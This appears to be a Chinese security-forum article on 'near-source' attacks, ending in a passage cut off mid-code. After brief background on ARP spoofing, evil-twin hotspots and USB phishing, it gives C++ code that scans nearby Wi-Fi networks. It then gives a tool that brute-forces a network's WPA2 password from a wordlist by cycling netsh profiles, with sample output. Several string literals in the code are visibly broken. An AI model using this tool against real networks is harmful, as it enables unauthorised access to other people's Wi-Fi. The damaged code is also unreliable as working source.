




# 万字谈近源-先知社区

> **来源**: https://xz.aliyun.com/news/16638  
> **文章ID**: 16638

---

本代码仅供学习、研究、教育或合法用途。开发者明确声明其无意将该代码用于任何违法、犯罪或违反道德规范的行为。任何个人或组织在使用本代码时，需自行确保其行为符合所在国家或地区的法律法规。

开发者对任何因直接或间接使用该代码而导致的法律责任、经济损失或其他后果概不负责。使用者需自行承担因使用本代码产生的全部风险和责任。请勿将本代码用于任何违反法律、侵犯他人权益或破坏公共秩序的活动。

本文写了近源WIFI破解，钓鱼有关的内容

# 背景介绍

### 1. **ARP攻击（Address Resolution Protocol Spoofing）**

**ARP**（地址解析协议）是一种在局域网中用于将IP地址映射到MAC地址的协议。在网络中，设备通过广播ARP请求来获取目标IP地址对应的MAC地址，以便正确地发送数据包。

#### **ARP攻击的原理：**

ARP攻击（又称ARP欺骗）是通过伪造ARP包，将恶意设备的MAC地址绑定到目标IP地址上，导致目标设备将数据包错误地发送给攻击者，而不是发送到实际的目标设备。

#### **ARP攻击的过程：**

1. 攻击者向网络中发送伪造的ARP响应包，声称自己是某个设备（如网关或其他主机）的MAC地址的所有者。
2. 受害者的设备接收到这个伪造的ARP响应后，会将攻击者的MAC地址与目标设备的IP地址绑定。
3. 这样一来，受害者的设备会将原本要发送给目标设备的数据包误发送给攻击者。
4. 攻击者可以选择将数据包转发给正确的目标设备（作为中间人攻击），或者直接拦截、篡改、窃取数据。

### 2. **近源钓鱼（Proximity Phishing）**

**近源钓鱼** 是一种通过伪装成合法目标的方式，诱使用户透露敏感信息的攻击。与传统的网络钓鱼攻击（如通过电子邮件进行）不同，近源钓鱼更侧重于**物理接近性**，通常发生在物理网络环境中。

#### **近源钓鱼的原理：**

近源钓鱼攻击通过模拟合法的网络服务或设备，诱使用户在与攻击者设备相近的环境中提交敏感信息。攻击者通常使用Wi-Fi、蓝牙等无线技术，伪造合法的网络服务或设备，欺骗用户连接到攻击者的伪造设备或网络，进而窃取用户的认证信息或其他敏感数据。

#### **近源钓鱼的常见方式：**

1. **伪造Wi-Fi热点（Evil Twin Attack）**： 攻击者设置一个与真实公共Wi-Fi网络同名的伪造Wi-Fi热点，用户连接到这个恶意热点后，攻击者可以监控用户的网络活动，窃取用户提交的敏感信息。
2. **蓝牙钓鱼**： 攻击者通过伪造蓝牙设备或服务吸引目标设备连接，然后通过篡改数据或直接窃取设备信息进行攻击。
3. **USB钓鱼**： 攻击者通过在公共场所放置恶意USB设备，诱使目标设备用户连接。这些USB设备通常包含恶意软件，一旦插入设备，攻击者便能够获得目标设备的敏感信息。

# 环境准备

你可能用到

[Aircrack](https://www.aircrack-ng.org/)

[Npcap](https://npcap.com/) 环境配置比较麻烦，注意VS里选择路径的时候选择x64的Lib

[ettercap](https://github.com/Ettercap/ettercap)

# T1·获取附近WIFI以便下一步

### code：

```
#include <windows.h>
#include <wlanapi.h>
#include <objbase.h>
#include <wtypes.h>
#include <iostream>
#include <vector>
#include <string>
#include <sstream>
#include <iomanip>

#pragma comment(lib, "Wlanapi.lib")
#pragma comment(lib, "Ole32.lib")

void PrintWiFiNetworks() {
    HANDLE clientHandle = NULL;
    DWORD version = 2;
    DWORD negotiatedVersion = 0;
    PWLAN_INTERFACE_INFO_LIST interfaceList = NULL;
    PWLAN_AVAILABLE_NETWORK_LIST networkList = NULL;

    // 初始化COM库
    CoInitialize(NULL);

    // 初始化WLAN客户端
    DWORD result = WlanOpenHandle(version, NULL, &negotiatedVersion, &clientHandle);
    if (result != ERROR_SUCCESS) {
        std::cerr << "无法打开WLAN句柄。错误代码: " << result << std::endl;
        CoUninitialize();
        return;
    }

    // 获取WLAN接口列表
    result = WlanEnumInterfaces(clientHandle, NULL, &interfaceList);
    if (result != ERROR_SUCCESS) {
        std::cerr << "无法枚举WLAN接口。错误代码: " << result << std::endl;
        WlanCloseHandle(clientHandle, NULL);
        CoUninitialize();
        return;
    }

    // 遍历每个接口
    for (DWORD i = 0; i < interfaceList->dwNumberOfItems; i++) {
        PWLAN_INTERFACE_INFO interfaceInfo = &interfaceList->InterfaceInfo[i];

        // 获取可用网络列表
        result = WlanGetAvailableNetworkList(clientHandle, &interfaceInfo->InterfaceGuid, 0, NULL, &networkList);
        if (result != ERROR_SUCCESS) {
            std::cerr << "无法获取可用网络列表。错误代码: " << result << std::endl;
            continue;
        }

        // 打印可用网络列表
        for (DWORD j = 0; j < networkList->dwNumberOfItems; j++) {
            PWLAN_AVAILABLE_NETWORK network = &networkList->Network[j];

            // 打印SSID
            std::cout << "SSID: ";
            for (DWORD k = 0; k < network->dot11Ssid.uSSIDLength; k++) {
                std::cout << network->dot11Ssid.ucSSID[k];
            }
            std::cout << std::endl;

            // 打印安全协议
            std::cout << "安全协议: ";
            switch (network->dot11DefaultAuthAlgorithm) {
            case DOT11_AUTH_ALGO_RSNA_PSK:
                std::cout << "WPA2-PSK";
                break;
            case DOT11_AUTH_ALGO_WPA_PSK:
                std::cout << "WPA-PSK";
                break;
            case DOT11_AUTH_ALGO_80211_OPEN:
                std::cout << "开放";
                break;
            default:
                std::cout << "未知";
                break;
            }
            std::cout << std::endl;

            // 打印无线电类型
            std::cout << "无线电类型: ";
            if (network->dot11BssType == dot11_BSS_type_infrastructure) {
                std::cout << "基础设施";
            }
            else if (network->dot11BssType == dot11_BSS_type_independent) {
                std::cout << "Ad hoc";
            }
            else {
                std::cout << "未知";
            }
            std::cout << std::endl;

            // 打印信号强度
            std::cout << "信号强度: " << network->wlanSignalQuality << "%" << std::endl;

            // 打印频段
            std::cout << "频段: ";
            if (network->dot11PhyTypes[0] == dot11_phy_type_fhss ||
                network->dot11PhyTypes[0] == dot11_phy_type_dsss ||
                network->dot11PhyTypes[0] == dot11_phy_type_erp) {
                std::cout << "2.4GHz";
            }
            else if (network->dot11PhyTypes[0] == dot11_phy_type_ofdm) {
                std::cout << "2.4GHz";
            }
            else if (network->dot11PhyTypes[0] == dot11_phy_type_ht) {
                std::cout << "2.4GHz 或 5GHz";
            }
            else if (network->dot11PhyTypes[0] == dot11_phy_type_vht) {
                std::cout << "5GHz";
            }
            else if (network->dot11PhyTypes[0] == dot11_phy_type_he) {
                std::cout << "2.4GHz 或 5GHz";
            }
            else {
                std::cout << "未知";
            }
            std::cout << std::endl;

            std::cout << "---------------------------------" << std::endl;
        }

        // 释放可用网络列表
        WlanFreeMemory(networkList);
    }

    // 释放接口列表
    WlanFreeMemory(interfaceList);

    // 关闭WLAN客户端
    WlanCloseHandle(clientHandle, NULL);

    // 反初始化COM库
    CoUninitialize();
}

int main() {
    PrintWiFiNetworks();
    return 0;
}

```

## 分解解释

### 1. **包含的头文件**

```
#include <windows.h>
#include <wlanapi.h>
#include <objbase.h>
#include <wtypes.h>
#include <iostream>
#include <vector>
#include <string>
#include <sstream>
#include <iomanip>
```

* `windows.h`：Windows平台下的基本头文件，提供Windows API函数和常量。
* `wlanapi.h`：提供访问和操作无线网络的API，包括获取可用网络列表、设置连接等。
* `objbase.h` 和 `wtypes.h`：包含Windows COM（Component Object Model）库的相关定义和函数。`WlanOpenHandle` 之类的函数需要通过 COM 库进行初始化和管理。
* `iostream`：用于输入输出流操作，打印信息到控制台。
* `vector`, `string`, `sstream`, `iomanip`：标准库用于处理字符串、数据流、格式化输出等的头文件。

### 2. **函数** `**PrintWiFiNetworks**` **的详细解释**

该函数的作用是获取并打印当前计算机附近的可用Wi-Fi网络信息。

#### 2.1 **初始化COM库**

```
CoInitialize(NULL);
```

* COM（组件对象模型）库初始化，许多Windows API（例如WLAN API）依赖COM来管理资源和接口。

#### 2.2 **打开WLAN客户端句柄**

```
DWORD result = WlanOpenHandle(version, NULL, &negotiatedVersion, &clientHandle);
```

* `WlanOpenHandle` 打开一个WLAN客户端句柄，提供与WLAN设备交互的接口。`version` 设置API版本，`clientHandle` 存储句柄。

#### 2.3 **枚举所有WLAN接口**

```
result = WlanEnumInterfaces(clientHandle, NULL, &interfaceList);
```

* `WlanEnumInterfaces` 获取计算机上的所有WLAN接口列表（例如，如果有多个无线适配器，这个函数会返回所有适配器的信息）。

#### 2.4 **遍历每个WLAN接口并获取可用网络列表**

```
result = WlanGetAvailableNetworkList(clientHandle, &interfaceInfo->InterfaceGuid, 0, NULL, &networkList);
```

* 对每个接口，调用 `WlanGetAvailableNetworkList` 来获取该接口下可用的网络列表。`networkList` 存储所有可用网络的信息。

#### 2.5 **打印每个网络的信息**

对于每个网络，程序会打印以下信息：

* **SSID（服务集标识符）**：网络的名称，通常是Wi-Fi网络的名字。
* **安全协议**：例如 WPA2-PSK（Wi-Fi保护接入2），WPA-PSK，或开放网络等。
* **无线电类型**：该网络是“基础设施”（Infrastructure）类型还是“Ad hoc”（点对点网络）类型。
* **信号强度**：网络的信号强度，以百分比形式显示。
* **频段**：根据网络的物理类型（PHY类型）判断网络的频段是2.4GHz、5GHz，或者两者兼具。

每个网络的信息被打印后，会输出一条分隔线 `---------------------------------`。

### 3. **释放资源并清理**

* `WlanFreeMemory` 用于释放通过WLAN API获取的内存。
* `WlanCloseHandle` 用于关闭WLAN句柄。
* `CoUninitialize` 用于反初始化COM库，释放COM资源。

### 4. **函数主程序**

```
int main() {
    PrintWiFiNetworks();
    return 0;
}
```

主程序中调用 `PrintWiFiNetworks` 函数，执行获取并打印Wi-Fi网络信息的操作。

### 5. **打印的网络信息**

对于每个可用的网络，程序会输出以下信息：

* **SSID**：网络的名字，例如"HomeNetwork"。
* **安全协议**：显示该网络使用的加密协议，例如“WPA2-PSK”或“开放”。
* **无线电类型**：该网络是“基础设施”网络（有路由器/接入点）还是“Ad hoc”网络（直接设备间通信）。
* **信号强度**：以百分比形式显示，表示信号的质量，100%表示信号最强。
* **频段**：根据PHY类型判断是2.4GHz、5GHz，或是两者兼容。

### 6.输出样例



# T2·爆破密码

为了简洁，鄙人将这个代码写了GUI页面，改后如下：注意切换窗口不要用控制台哦

```
#include <windows.h>
#include <wlanapi.h>
#include <objbase.h>
#include <string>
#include <vector>
#include <sstream>
#include <iostream>

#pragma comment(lib, "Wlanapi.lib")
#pragma comment(lib, "Ole32.lib")

struct WiFiInfo {
    std::wstring ssid;      // 使用宽字符
    std::wstring authAlgo;
    std::wstring bssType;
    int signalQuality;
    std::wstring band;
};

// 全局变量
std::vector<WiFiInfo> wifiList;

// 获取WiFi网络信息
void FetchWiFiNetworks() {
    HANDLE clientHandle = NULL;
    DWORD version = 2;
    DWORD negotiatedVersion = 0;
    PWLAN_INTERFACE_INFO_LIST interfaceList = NULL;
    PWLAN_AVAILABLE_NETWORK_LIST networkList = NULL;

    CoInitialize(NULL);
    DWORD result = WlanOpenHandle(version, NULL, &negotiatedVersion, &clientHandle);
    if (result != ERROR_SUCCESS) {
        MessageBox(NULL, L"无法打开WLAN句柄。", L"错误", MB_OK | MB_ICONERROR);
        CoUninitialize();
        return;
    }

    result = WlanEnumInterfaces(clientHandle, NULL, &interfaceList);
    if (result != ERROR_SUCCESS) {
        MessageBox(NULL, L"无法枚举WLAN接口。", L"错误", MB_OK | MB_ICONERROR);
        WlanCloseHandle(clientHandle, NULL);
        CoUninitialize();
        return;
    }

    for (DWORD i = 0; i < interfaceList->dwNumberOfItems; i++) {
        PWLAN_INTERFACE_INFO interfaceInfo = &interfaceList->InterfaceInfo[i];
        result = WlanGetAvailableNetworkList(clientHandle, &interfaceInfo->InterfaceGuid, 0, NULL, &networkList);
        if (result != ERROR_SUCCESS) {
            continue;
        }

        for (DWORD j = 0; j < networkList->dwNumberOfItems; j++) {
            PWLAN_AVAILABLE_NETWORK network = &networkList->Network[j];
            WiFiInfo info;

            // SSID
            info.ssid = std::wstring(network->dot11Ssid.ucSSID, network->dot11Ssid.ucSSID + network->dot11Ssid.uSSIDLength);

            // Auth Algorithm
            switch (network->dot11DefaultAuthAlgorithm) {
            case DOT11_AUTH_ALGO_RSNA_PSK:
                info.authAlgo = L"WPA2-PSK";
                break;
            case DOT11_AUTH_ALGO_WPA_PSK:
                info.authAlgo = L"WPA-PSK";
                break;
            case DOT11_AUTH_ALGO_80211_OPEN:
                info.authAlgo = L"开放";
                break;
            default:
                info.authAlgo = L"未知";
                break;
            }

            // BSS Type
            info.bssType = network->dot11BssType == dot11_BSS_type_infrastructure ? L"基础设施" : L"Ad hoc";

            // Signal Quality
            info.signalQuality = network->wlanSignalQuality;

            // Band
            if (network->dot11PhyTypes[0] == dot11_phy_type_vht) {
                info.band = L"5GHz";
            }
            else {
                info.band = L"2.4GHz";
            }

            wifiList.push_back(info);
        }

        WlanFreeMemory(networkList);
    }

    WlanFreeMemory(interfaceList);
    WlanCloseHandle(clientHandle, NULL);
    CoUninitialize();
}

// 按钮点击事件处理
void ShowWiFiDetails(int index) {
    if (index >= 0 && index < wifiList.size()) {
        WiFiInfo& info = wifiList[index];

        std::wstringstream details;
        details << L"SSID: " << info.ssid << L"
"
            << L"安全协议: " << info.authAlgo << L"
"
            << L"无线电类型: " << info.bssType << L"
"
            << L"信号强度: " << info.signalQuality << L"%
"
            << L"频段: " << info.band;

        MessageBox(NULL, details.str().c_str(), L"WiFi 信息", MB_OK | MB_ICONINFORMATION);
    }
}

// 窗口过程
LRESULT CALLBACK WindowProc(HWND hwnd, UINT uMsg, WPARAM wParam, LPARAM lParam) {
    switch (uMsg) {
    case WM_CREATE: {
        for (size_t i = 0; i < wifiList.size(); i++) {
            CreateWindow(
                L"BUTTON", wifiList[i].ssid.c_str(),
                WS_TABSTOP | WS_VISIBLE | WS_CHILD | BS_DEFPUSHBUTTON,
                10, 30 + static_cast<int>(i) * 40, 300, 30,
                hwnd, (HMENU)(1000 + static_cast<int>(i)), (HINSTANCE)GetWindowLongPtr(hwnd, GWLP_HINSTANCE), NULL);
        }
    } break;

    case WM_COMMAND: {
        int buttonId = LOWORD(wParam);
        if (buttonId >= 1000 && buttonId < 1000 + wifiList.size()) {
            ShowWiFiDetails(buttonId - 1000);
        }
    } break;

    case WM_DESTROY:
        PostQuitMessage(0);
        break;

    default:
        return DefWindowProc(hwnd, uMsg, wParam, lParam);
    }
    return 0;
}

// 主函数
int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
    FetchWiFiNetworks();

    const wchar_t CLASS_NAME[] = L"WiFi Window Class";
    WNDCLASS wc = {};
    wc.lpfnWndProc = WindowProc;
    wc.hInstance = hInstance;
    wc.lpszClassName = CLASS_NAME;

    RegisterClass(&wc);

    HWND hwnd = CreateWindowEx(
        0, CLASS_NAME, L"WiFi 网络",
        WS_OVERLAPPEDWINDOW, CW_USEDEFAULT, CW_USEDEFAULT, 400, 600,
        NULL, NULL, hInstance, NULL);

    if (hwnd == NULL) {
        return 0;
    }

    ShowWindow(hwnd, nCmdShow);

    MSG msg = {};
    while (GetMessage(&msg, NULL, 0, 0)) {
        TranslateMessage(&msg);
        DispatchMessage(&msg);
    }

    return 0;
}
```

现在难题出现了，那我如何进行密码爆破连接对方WIFI呢？又不在WIFI下不能用hashcat等工具进行密码爆破，那么只好采用这种方法了，code如下

### **完整代码**

```
#include <iostream>
#include <fstream>
#include <string>
#include <cstdlib>
#include <thread>
#include <chrono>

// 函数：生成临时 XML 配置文件
void CreateWiFiConfig(const std::string& ssid, const std::string& password, const std::string& filename) {
    std::ofstream file(filename);
    if (!file) {
        std::cerr << "无法创建配置文件：" << filename << std::endl;
        return;
    }

    file << "<?xml version="1.0"?>
"
         << "<WLANProfile xmlns="http://www.microsoft.com/networking/WLAN/profile/v1">
"
         << "    <name>" << ssid << "</name>
"
         << "    <SSIDConfig>
"
         << "        <SSID>
"
         << "            <name>" << ssid << "</name>
"
         << "        </SSID>
"
         << "    </SSIDConfig>
"
         << "    <connectionType>ESS</connectionType>
"
         << "    <connectionMode>manual</connectionMode>
"
         << "    <MSM>
"
         << "        <security>
"
         << "            <authEncryption>
"
         << "                <authentication>WPA2PSK</authentication>
"
         << "                <encryption>AES</encryption>
"
         << "                <useOneX>false</useOneX>
"
         << "            </authEncryption>
"
         << "            <sharedKey>
"
         << "                <keyType>passPhrase</keyType>
"
         << "                <protected>false</protected>
"
         << "                <keyMaterial>" << password << "</keyMaterial>
"
         << "            </sharedKey>
"
         << "        </security>
"
         << "    </MSM>
"
         << "</WLANProfile>
";

    file.close();
}

// 函数：检查能否 Ping 通百度
bool CanPingBaidu() {
    std::string pingCmd = "ping www.baidu.com -n 1 > nul 2>&1";
    return system(pingCmd.c_str()) == 0;
}

// 函数：使用 Netsh 尝试连接 WiFi
bool TryConnectToWiFi(const std::string& ssid, const std::string& password) {
    const std::string configFile = "wifi_profile.xml";

    // 清除旧的 WiFi 配置
    std::string deleteProfileCmd = "netsh wlan delete profile name="" + ssid + """;
    system(deleteProfileCmd.c_str());

    // 生成 WiFi 配置文件
    CreateWiFiConfig(ssid, password, configFile);

    // 添加 WiFi 配置
    std::string addProfileCmd = "netsh wlan add profile filename="" + configFile + """;
    if (system(addProfileCmd.c_str()) != 0) {
        return false; // 配置失败
    }

    // 连接到 WiFi
    std::string connectCmd = "netsh wlan connect name="" + ssid + """;
    if (system(connectCmd.c_str()) == 0) {
        std::this_thread::sleep_for(std::chrono::seconds(2)); // 增加 2 秒延迟

        // 检测是否可以 Ping 通百度
        if (CanPingBaidu()) {
            return true; // 连接成功
        }
    }

    return false; // 连接失败
}

// 函数：从字典中尝试密码
std::string BruteForceWiFi(const std::string& ssid, const std::string& dictionaryFile) {
    std::ifstream dictionary(dictionaryFile);
    if (!dictionary) {
        std::cerr << "无法打开密码字典文件：" << dictionaryFile << std::endl;
        return "";
    }

    std::string password;
    while (std::getline(dictionary, password)) {
        if (password.empty()) continue;

        std::cout << "尝试密码：" << password << std::endl;

        // 尝试连接
        if (TryConnectToWiFi(ssid, password)) {
            dictionary.close();
            return password; // 返回正确密码
        }
    }

    dictionary.close();
    return ""; // 未找到正确密码
}

// 主函数
int main() {
    std::string ssid = "A";                  // WiFi 名称
    std::string dictionaryFile = "passwords.txt"; // 密码字典文件

    std::cout << "开始尝试连接到 WiFi：" << ssid << std::endl;

    // 从字典中尝试密码
    std::string correctPassword = BruteForceWiFi(ssid, dictionaryFile);

    if (!correctPassword.empty()) {
        std::cout << "WiFi 连接成功！密码为：" << correctPassword << std::endl;
    } else {
        std::cerr << "WiFi 连接失败！未找到正确密码。" << std::endl;
    }

    std::cout << "按 Enter 键退出程序..." << std::endl;
    std::cin.get();
    return 0;
}
```

### **代码详细功能解析**

#### **1. 生成临时 XML 配置文件**

函数：`CreateWiFiConfig`

* **输入参数**：

* `ssid`：目标 WiFi 的名称。
* `password`：当前尝试的密码。
* `filename`：生成的临时 XML 文件名。

* **功能**：

* 动态生成 XML 配置文件，其中包含 SSID 和密码的配置信息。
* XML 文件是使用 `netsh wlan add profile` 添加 WiFi 配置时的必要文件。

* **输出**：

* 生成 XML 文件（如 `wifi_profile.xml`），内容如下：

```
<?xml version="1.0"?>
<WLANProfile xmlns="http://www.microsoft.com/networking/WLAN/profile/v1">
    <name>A</name>
    <SSIDConfig>
        <SSID>
            <name>A</name>
        </SSID>
    </SSIDConfig>
    <connectionType>ESS</connectionType>
    <connectionMode>manual</connectionMode>
    <MSM>
        <security>
            <authEncryption>
                <authentication>WPA2PSK</authentication>
                <encryption>AES</encryption>
                <useOneX>false</useOneX>
            </authEncryption>
            <sharedKey>
                <keyType>passPhrase</keyType>
                <protected>false</protected>
                <keyMaterial>12345678</keyMaterial>
            </sharedKey>
        </security>
    </MSM>
</WLANProfile>
```

#### **2. 检查能否 Ping 通百度**

函数：`CanPingBaidu`

* **功能**：

* 执行命令 `ping www.baidu.com -n 1`：

* `-n 1` 表示发送 1 个 Ping 数据包。
* `> nul 2>&1` 隐藏输出，结果仅以返回值决定。

* 如果返回值为 0，则表示网络连接成功。

* **返回值**：

* `true`：可以 Ping 通百度（网络连通）。
* `false`：无法 Ping 通百度（网络不通）。

#### **3. 使用 Netsh 尝试连接 WiFi**

函数：`TryConnectToWiFi`

* **输入参数**：

* `ssid`：目标 WiFi 的名称。
* `password`：当前尝试的密码。

* **功能**：

1. **清除旧的 WiFi 配置**：

* 通过命令 `netsh wlan delete profile name="SSID"` 删除已有的 WiFi 配置，避免因缓存问题导致错误连接。

1. **生成新的 WiFi 配置文件**：

* 调用 `CreateWiFiConfig` 创建包含当前密码的 XML 配置文件。

1. **添加 WiFi 配置**：

* 执行命令 `netsh wlan add profile filename="wifi_profile.xml"`，将配置文件加载到系统中。

1. **连接到 WiFi**：

* 执行命令 `netsh wlan connect name="SSID"` 尝试连接 WiFi。

1. **检查网络连通性**：

* 增加 2 秒延迟，确保连接状态稳定。
* 调用 `CanPingBaidu` 检查是否可以连接到互联网。

* **返回值**：

* `true`：WiFi 连接成功。
* `false`：WiFi 连接失败。

#### **4. 从字典中尝试密码**

函数：`BruteForceWiFi`

* **输入参数**：

* `ssid`：目标 WiFi 的名称。
* `dictionaryFile`：包含可能密码的文件路径。

* **功能**：

1. 打开密码字典文件（如 `passwords.txt`），逐行读取密码。
2. 对每个密码：

* 调用 `TryConnectToWiFi` 尝试连接。
* 如果连接成功，返回当前密码。

1. 如果所有密码均失败，返回空字符串。

* **返回值**：

* 成功：返回正确的密码。
* 失败：返回空字符串。

#### **5. 主函数**

函数：`main`

* **功能**：

1. 初始化 WiFi 名称和密码字典文件路径。
2. 调用 `BruteForceWiFi`，从字典中逐一尝试密码。
3. 根据返回结果输出连接结果：

* 成功：输出正确密码。
* 失败：提示未找到正确密码。

* **交互**：

* 输出尝试的密码。
* 提示连接结果。

### **运行步骤**

1. **准备密码字典文件**：

* 创建 `passwords.txt`，文件内容如下（每行一个密码）：

```
password1
password2
12345678
```

1. **以管理员权限运行程序**：

* 操作 WiFi 配置需要管理员权限。

1. **运行程序并观察输出**：

* 正确密码为 `12345678` 时，输出如下：

```
开始尝试连接到 WiFi：A
尝试密码：password1
尝试密码：password2
尝试密码：12345678
WiFi 连接成功！密码为：12345678
按 Enter 键退出程序...
```

1. **处理错误**：

* 如果所有密码均失败，输出：

```
WiFi 连接失败！未找到正确密码。
按 Enter 键退出程序...
```

### **注意事项**

1. **管理员权限**：

* 无法以普通用户身份操作 WiFi 配置。

1. **目标 WiFi 的 SSID**：

* 确保 SSID 输入正确，区分大小写。

1. **网络延迟**：

* 增加 2 秒延迟，确保连接状态稳定后再检测。

1. **环境支持**：

* 仅适用于 Windows 系统。

### 拼接到主程序中（我直接附code了，解释和上面重复的我不水字数了）

```
#include <windows.h>
#include <wlanapi.h>
#include <CommCtrl.h>
#include <objbase.h>
#include <string>
#include <vector>
#include <sstream>
#include <thread>
#include <fstream>
#include <atomic>
#include <locale>
#include <codecvt>
#include <chrono>
#include <iostream>

#pragma comment(lib, "Wlanapi.lib")
#pragma comment(lib, "Ole32.lib")
#pragma comment(lib, "Comctl32.lib")

struct WiFiInfo {
    std::wstring ssid;      // WiFi名称
    std::wstring authAlgo;  // 认证算法
    std::wstring bssType;   // BSS类型
    int signalQuality;      // 信号质量
    std::wstring band;      // 频段
};

std::vector<WiFiInfo> wifiList;  // WiFi列表
std::atomic<bool> stopBruteForce = false;  // 停止爆破的标志

// 获取WiFi网络信息
void FetchWiFiNetworks() {
    HANDLE clientHandle = NULL;
    DWORD version = 2;
    DWORD negotiatedVersion = 0;
    PWLAN_INTERFACE_INFO_LIST interfaceList = NULL;
    PWLAN_AVAILABLE_NETWORK_LIST networkList = NULL;

    CoInitialize(NULL);
    DWORD result = WlanOpenHandle(version, NULL, &negotiatedVersion, &clientHandle);
    if (result != ERROR_SUCCESS) {
        MessageBox(NULL, L"无法打开WLAN句柄。", L"错误", MB_OK | MB_ICONERROR);
        CoUninitialize();
        return;
    }

    result = WlanEnumInterfaces(clientHandle, NULL, &interfaceList);
    if (result != ERROR_SUCCESS) {
        MessageBox(NULL, L"无法枚举WLAN接口。", L"错误", MB_OK | MB_ICONERROR);
        WlanCloseHandle(clientHandle, NULL);
        CoUninitialize();
        return;
    }

    for (DWORD i = 0; i < interfaceList->dwNumberOfItems; i++) {
